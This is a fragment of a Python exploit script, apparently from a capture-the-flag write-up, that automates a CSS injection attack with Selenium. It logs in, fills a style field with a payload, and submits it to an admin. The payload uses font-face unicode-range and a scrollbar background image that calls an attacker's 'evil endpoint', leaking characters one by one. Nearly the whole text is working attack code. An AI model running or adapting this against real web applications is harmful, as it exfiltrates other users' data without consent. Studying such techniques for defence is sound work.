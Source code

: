 ```py

print(f"[\x1b[92m+\x1b[0m] Logged in with credentials: {username}:{password}")

# Payload template
template = """
@font-face{
    font-family:toto;
    src:url(/static/fonts/Georgia.ttf);
    size-adjust:1000%%; /* %% because of format string */
    unicode-range:unicoded_char;
}
#p1{
    overflow:auto;
    width:150px;
    height:60px;
    font-family: toto;
}
#p1::-webkit-scrollbar{
    background-image: url(%s?character_returned);
}
""" % evil_endpoint

for char in chars:
    print(f"[\x1b[94m>\x1b[0m] Sending payload for '{char}'")

    # Encoding character 
    unicoded = f"U+00{char.encode().hex()}"

    # Replacing template values to put our characters
    res = template.replace("character_returned", char).replace("unicoded_char", unicoded)
    
    time.sleep(2)

    # Clicking on button to update style
    driver.find_elements_by_tag_name("button")[-1].click()

    # Filling the textarea with our css
    style_content = driver.find_element_by_name("style_content")
    style_content.clear()
    style_content.send_keys(res)

    # Update our style
    driver.find_elements_by_tag_name("form")[1].submit()

    time.sleep(1)
    
    # Send to the admin
    driver.find_elements_by_tag_name("form")[-1].submit()

    time.sleep(5)

# Closing driver
driver.close()

print(f"[\x1b[92m+\x1b[0m] Exploit finished, check your evil endpoint {evil_endpoint}")
```
